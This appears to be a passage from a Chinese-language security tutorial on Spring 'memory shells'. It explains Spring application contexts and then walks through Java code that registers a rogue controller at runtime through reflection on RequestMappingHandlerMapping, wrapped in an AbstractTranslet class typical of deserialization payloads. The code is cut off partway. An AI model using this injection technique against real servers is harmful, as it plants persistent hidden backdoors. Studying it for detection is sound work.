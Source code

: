 
关于 Root Context 和 Child Context 的重要概念：

- Spring 应用中可以同时有多个 Context，其中只有一个 Root Context，剩下的全是 Child Context
- 所有Child Context都可以访问在 Root Context中定义的 bean，但是Root Context无法访问Child Context中定义的 bean
- 所有的Context在创建后，都会被作为一个属性添加到了 ServletContext中

### Controller内存马
在注册 Controller 时，需要注册两个东西，一个是 Controller，一个是 RequestMapping 映射

首先需要获取当前代码运行时的上下文环境，这里使用的是
```java
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```
此方法获取的是名为`dispatcherServlet-servlet`的Child context
发现上面代码中的 `currentRequestAttributes()` 替换成 `getRequestAttributes()` 也同样有效，getAttribute 参数中的 0 代表从当前 request 中获取而不是从当前的 session 中获取属性值


接下来是注册 controller
>Spring 2.5 开始到 Spring 3.1 之前一般使用`org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping` 映射器
Spring 3.1 开始及以后一般开始使用新的`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping`映射器来支持@Contoller和@RequestMapping注解


可以发现Spring Contorller实际上挂载在`RequestMappingHandlerMapping`的registry中，可以通过`registerMapping`方法动态添加Controller
![](https://img-blog.csdnimg.cn/ee9966b78f2d4985b0d6d55597e1a1ce.png)
#### 内存马实现(Springboot < 2.6.0)
**Controller内存马实现步骤：**
1. 获取应用的上下文环境，也就是ApplicationContext
2. 从 ApplicationContext 中获取 AbstractHandlerMethodMapping 实例(用于反射)
3. 反射获取 AbstractHandlerMapping类的 getMappingRegistry字段
4. 通过 getMappingRegistry注册Controller


```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class InjectToController extends AbstractTranslet {
    // 第一个构造函数
    public InjectToController() throws ClassNotFoundException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, InvocationTargetException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 2. 通过反射获得自定义 controller 中test的 Method 对象
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
```